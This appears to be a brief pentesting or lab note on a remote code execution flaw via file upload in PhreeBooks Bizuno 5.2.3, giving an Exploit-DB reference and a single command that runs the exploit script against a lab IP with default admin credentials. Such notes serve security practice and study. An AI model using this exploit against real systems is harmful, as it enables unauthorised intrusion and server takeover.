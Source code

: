 # phreebooks bizuno

## v5.2.3 RCE via file upload

```
https://www.exploit-db.com/exploits/49524
python3 exploit.py -t http://10.10.10.120/phreebooks -u admin@phreebooks.com -p admin
```
